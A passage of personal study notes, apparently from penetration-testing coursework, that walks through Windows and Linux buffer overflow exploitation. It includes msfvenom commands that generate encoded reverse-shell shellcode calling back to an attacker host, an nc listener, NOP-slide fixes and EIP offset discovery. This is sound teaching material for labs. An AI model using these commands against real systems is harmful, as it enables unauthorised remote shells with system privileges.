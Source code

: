                     code. 
                    * if `JMP ESP` address is `0x148010cf` we change put
                        it in reverse order in our poc as: `esp = "\xcf\x10\x80\x14"`
            #7. generate shell code with metasploit
                `msfvenom -p windows/shell_reverse_tcp LHOST=<hackbox ip> LPORT=443 -f c`
                    `-f c`  is for C code.
                check for bad charaters. so we can encode this a different way
                    or get rid of bad charters with:
                    `msfvenom -p windows/shell_reverse_tcp LHOST=<hackbox ip> LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`
                        `shikata_ga_nai` is a polymorfic encoder
                        `-b` are known bad chars
            #8. getting a shell
                replace our D's buffer with shell code in script.
                [win32_BO_reverse_shell](win32_BO_reverse_shell)
                if we run the script it will fail because the tgt needs to add
                    a stub to the program to decode our encoded shell code. when
                    the `GetPC` runs it will overwrite a few bites of the decoder
                    as its saved in mormory becasue it is too close to it in
                    memory. to fix this we will make a bigger
                    landing pad so there is enough room for the decoder to work and
                    not be overwritten.
                #nops
                just add `0x90` with are NOPs meaning no operations just pass
                    on. So we add a `NOP slide` of about 10 to the front of our code as a
                    landing pad so its not overwritten. This ensures that the
                    stack pointer is far enough away from the shell code to not
                    overwrite it with GetPC.
                    [win32_BO_reverse_shell_with_nops](win32_BO_reverse_shell_with_nops)
                set up nc: `nc -lnvp 443` and run the buffer overflow
                when you get a shell `whoami` and see that you have `nt authority\system`.
                    if you overflow a program with system permissions you get a
                    system shell which is admin
                however, when we exit the shell the service on the tgt will
                    crash. 
            #9. improving the exploit
                metasploit defualt exit is `ExitProcess` so it will kill whatever
                    it is on when it exits. we can fix this. if its a threaded
                    process we can try to exit with `ExitThread` and shouldn't
                    crash the service by just exiting the thread.
                    `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.203 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`
                        `EXITFUNC=thread` tells it to exit the thread and not
                        the process
        #linux buffer overflows (crossfire game)
            modern linux kernels have protections such as DEP, ASLR, and
                Canaries
            rdesktop to debian > terminal > `/usr/games/crossfire/bin/crossfire`
                to launch game.
            #replicating the crash
                launch EDB debugger with `edb` > file > attach. windows are the
                    same as immunity.
                `F9` to run (unpause) or click icon.
                [lin_poc](lin_poc) running lin_poc overflows the `EIP` with `A`s
                the exploit is targeting the setup sound so in our poc we
                    need specific hex values at the start and end of our buffer
                    and setup sound cmd.
            #controlling EIP
                need to find out the exact 4 bytes that land on the `EIP` with
                    `msf-pattern_create -l 4379`
                [lin_eip](lin_eip) `eip` is 46367046 and checking with
                    `msf-pattern_offest -l 4379 -q 46367046` offset is 4368
                [lin_eip_checker](lin_eip_checker) as land on the `eip`.
					also see our 7 `C`s start at the `ESP`